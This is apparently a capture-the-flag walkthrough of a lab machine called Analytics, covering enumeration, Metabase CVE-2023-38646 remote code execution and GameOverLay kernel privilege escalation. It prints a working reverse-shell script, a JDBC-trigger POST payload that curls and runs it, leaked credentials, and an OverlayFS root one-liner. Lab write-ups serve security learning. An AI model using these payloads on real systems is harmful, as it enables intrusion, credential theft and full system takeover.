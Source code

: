 ## About Analytics
Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a `Metabase` instance, which is vulnerable to Pre-Authentication Remote Code Execution (`[CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)`), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to `GameOverlay`, which is leveraged to obtain root privileges.

I began my enumeration with a basic service/version scan against the target:


```bash
 nmap -sV 10.129.229.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-21 14:08 CDT
Nmap scan report for 10.129.229.224
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

Only ports 22 (SSH) and 80 (HTTP) were open.



I followed up with a more detailed scan targeting the discovered ports:


```bash 
nmap -sCV -p22,80 10.129.229.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-22 07:15 CDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:16 (0:00:06 remaining)
Nmap scan report for 10.129.229.224
Host is up (0.0080s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```a

Given the redirect, I performed a vhost scan using Gobuster:

```bash
gobuster vhost -u http://analytical.htb:80  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb:80
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb:80 Status: 200 [Size: 77883]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```
> Discovery: data.analytical.htb
> 
I browsed to http://data.analytical.htb and identified the service as Metabase. To confirm the version:

```bash
curl -s http://data.analytical.htb/api/session/properties | jq '.version'
{
  "date": "2023-06-29",
  "tag": "v0.46.6",
  "branch": "release-x.46.x",
  "hash": "1bb88f5"
}

```
This version is vulnerable to CVE-2023-38646, which allows unauthenticated remote code execution.


> Description
>Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow attackers to execute arbitrary commands on the server, at the server's privilege level. Authentication is not required for exploitation.

Then I retrieved the setup token:

```bash
curl -s http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]'
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```
I prepared a simple reverse shell:

```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.126/8888 0>&1' > rev.sh

 python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```


Then, using Burp Suite, I crafted the following malicious POST request to trigger RCE:


```h
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 783

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {curl,10.10.14.126:8081/rev.sh}|bash')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}

```
As soon as I send the post request I obtained the reverse shell as the user metabase.
```bash
listening on [any] 8888 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.229.224] 44056
sh: can't access tty; job control turned off
/ $ whoami
metabase
/ $ 
```
While exploring the environment variables, I found credentials:

```bash
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=bedd46381734
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=whoami
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```
Using the credentials found, I successfully SSH'd into the box:

```bash

ssh metalytics@10.129.229.224 

```

### User flag:


```bash
metalytics@analytics:~$ cat user.txt
435a95bcf16c627c8d9e841640cfefa5
```
I checked system version info:


```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
metalytics@analytics:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.3 LTS
Release:	22.04
Codename:	jammy
```


This kernel is vulnerable to OverlayFS-based privilege escalation (unprivileged user namespace enabled + setcap support).

I crafted a local root exploit:


```bash
metalytics@analytics:~$ nano shell.sh
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o
rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import
os;os.setuid(0);os.system("/bin/bash")'
```
Then: 
```bash
metalytics@analytics:~$ chmod +x shell.sh
metalytics@analytics:~$ ./shell.sh
```

 I got a root shell.
```bash
root@analytics:/root# cat /root/root.txt
fd82c29e675087eb6017ab6b571dd97a
```

